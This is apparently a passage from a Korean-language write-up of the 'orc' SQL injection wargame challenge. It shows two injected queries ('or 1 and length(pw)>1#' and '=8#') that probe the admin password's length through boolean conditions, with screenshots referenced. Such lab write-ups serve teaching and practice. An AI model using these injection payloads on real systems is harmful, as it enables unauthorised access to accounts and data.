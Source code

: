 >`pw` 길이 알아내기

`select id from prob_orc where id='admin' and pw='' or 1 and length(pw)>1#'`

<img src="./img/orc2.png" width="700">

`select id from prob_orc where id='admin' and pw='' or 1 and length(pw)=8#'`

<img src="./img/orc3.png" width="700">
